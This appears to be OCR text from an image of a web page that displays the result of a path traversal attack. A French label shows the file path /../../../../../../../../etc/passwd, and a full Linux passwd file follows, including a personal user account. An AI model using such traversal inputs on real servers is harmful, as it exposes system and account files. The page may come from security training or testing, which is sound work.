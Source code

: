```html
Contenu du fichier /../../../../../../../../etc/passwd :  </br><PRE>root:x:0:0:root:/root:/bin/bash

daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

bin:x:2:2:bin:/bin:/usr/sbin/nologin

sys:x:3:3:sys:/dev:/usr/sbin/nologin

sync:x:4:65534:sync:/bin:/bin/sync

games:x:5:60:games:/usr/games:/usr/sbin/nologin

man:x:6:12:man:/var/cache/man:/usr/sbin/nologin

lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin

mail:x:8:8:mail:/var/mail:/usr/sbin/nologin

news:x:9:9:news:/var/spool/news:/usr/sbin/nologin

uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin

proxy:x:13:13:proxy:/bin:/usr/sbin/nologin

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

backup:x:34:34:backup:/var/backups:/usr/sbin/nologin

list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin

irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin

gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin

nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin

systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin

systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin

systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin

messagebus:x:103:106::/nonexistent:/usr/sbin/nologin

syslog:x:104:110::/home/syslog:/usr/sbin/nologin

_apt:x:105:65534::/nonexistent:/usr/sbin/nologin

tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false

uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin

tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin

landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin

pollinate:x:110:1::/var/cache/pollinate:/bin/false

sshd:x:111:65534::/run/sshd:/usr/sbin/nologin

systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin

florianges:x:1000:1000:florianges:/home/florianges:/bin/bash
```
